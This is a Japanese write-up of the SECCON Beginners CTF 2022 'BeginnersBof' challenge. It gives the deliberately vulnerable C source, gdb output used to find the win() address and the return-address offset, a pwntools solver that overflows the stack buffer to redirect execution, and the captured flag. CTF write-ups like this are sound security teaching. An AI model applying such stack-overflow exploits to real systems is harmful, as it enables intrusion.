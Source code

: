 # BeginnersBof
 問題のソースコードは以下の通り。
 [SECCON Beginners CTF  BeginnersBof](https://github.com/SECCON/Beginners_CTF_2022/tree/main/pwnable/BeginnersBof)
 <details><summary>ソースコード</summary>
    
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <err.h>

#define BUFSIZE 0x10

void win() {
    char buf[0x100];
    int fd = open("flag.txt", O_RDONLY);
    if (fd == -1)
	err(1, "Flag file not found...\n");
    write(1, buf, read(fd, buf, sizeof(buf)));
    close(fd);
}

int main() {
    int len = 0;
    char buf[BUFSIZE] = {0};
    puts("How long is your name?");
    scanf("%d", &len);
    char c = getc(stdin);
    if (c != '\n')
	ungetc(c, stdin);
    puts("What's your name?");
    fgets(buf, len, stdin);
    printf("Hello %s", buf);
}

__attribute__((constructor))
void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    alarm(60);
}
    
```
    
</details>

## 問題解決の見通し
ソースコードから、win関数を呼び出せればフラグが出力されそうだと予測できる。そしてもともとBUFSIZEで変数bufの大きさは固定されているにも関わらず、main関数内のscanf関数で入力した数値の分だけfgets関数で入力できるのでバッファオーバーフロー攻撃の脆弱性が存在することが分かる。さらにmain関数からwin関数への分岐がないのでバッファオーバーフローでmain関数のリターンアドレスをwin関数のアドレスに書き換えることを考える。

## STEP1 アドレスの調査
リターンアドレスを書き換えるにあたってwin関数のアドレスとmain関数のリターンアドレスが格納されているアドレスを特定する必要がある。ここでは簡単なwin関数のアドレスから調べることとする。しかし、これに関してはどちらから調べても支障はない。
win関数のアドレスはgdbのコマンド一つで求められる。
    
```
gdb-peda$ info addr win
Symbol "win" is at 0x4011e6 in a file compiled without debugging.
```
続いてmain関数のリターンアドレスの位置を考える。
ここでmain関数中のprintf関数を呼び出す位置にブレークポイントを設置してレジスタの状態を見る。
    
```
    --レジスタ--
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7af2031 (<__GI___libc_read+17>:     cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7dcf8d0 --> 0x0
RSI: 0x7fffffffe110 ('a' <repeats 12 times>, "\n")
RDI: 0x402051 ("Hello %s")
RBP: 0x7fffffffe130 --> 0x401370 (<__libc_csu_init>:    endbr64)
RSP: 0x7fffffffe110 ('a' <repeats 12 times>, "\n")
RIP: 0x40130a (<main+167>:      call   0x401050 <printf@plt>)
    
    --スタック--
0000| 0x7fffffffe110 ('a' <repeats 12 times>, "\n")
0008| 0x7fffffffe118 --> 0xa61616161 ('aaaa\n')
0016| 0x7fffffffe120 --> 0x7fffffffe210 --> 0x1
0024| 0x7fffffffe128 --> 0xa00000000002710
0032| 0x7fffffffe130 --> 0x401370 (<__libc_csu_init>:   endbr64)
0040| 0x7fffffffe138 --> 0x7ffff7a03c87 (<__libc_start_main+231>:       mov    edi,eax)
0048| 0x7fffffffe140 --> 0x1
0056| 0x7fffffffe148 --> 0x7fffffffe218 --> 0x7fffffffe48a
```
    
ここから、RSPからRBPへは0x20だけの間が空いていることが分かる。よって、main関数のリターンアドレスはRSP+0x28のアドレスにある。このときのスタック内部の概要と目標とする状況は以下の通り。
```
|---------------|<--rsp-->|------------|
|  user_input   |         |    'a'     |
|     0x20      |         |    0x28    |
|---------------|<--rbp-->|            |
| saved_rbp 0x8 |         |            |
|---------------|         |------------|
| return_addr   |---BOF-->| win_addr   |
|---------------|         |------------|
```
    
## STEP2 バッファオーバーフロー実行
    
これで攻撃に必要な材料が揃ったので実際に攻撃を実行していく。ここで注意するポイントはアドレスを埋め込むとき、アドレスをリトルエンディアンに変換するのを忘れないことである。
    
### Solver
    
```
import sys
from pwn import *

bin_file = './chall'
context(os = 'linux', arch = 'amd64')

win_addr = 0x00000000004011e6

def attack(conn, **kwargs):
    buf1 = b'10000'
    conn.sendlineafter(b'name?', buf1)
    buf2 = b'a'*0x28+pack(win_addr)
    conn.sendlineafter(b'name?', buf2)


def main():
    #conn = remote('beginnersbof.quals.beginners.seccon.jp', 9000)
    conn = process(bin_file)
    attack(conn)
    conn.interactive()


if __name__ == '__main__':
    main()
    
```
### 実行結果
```
[+] Starting local process './chall': pid 11746
[*] Switching to interactive mode

Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xe6@ctf4b{Y0u_4r3_4lr34dy_4_BOF_M45t3r!}
[*] Got EOF while reading in interactive
$
```
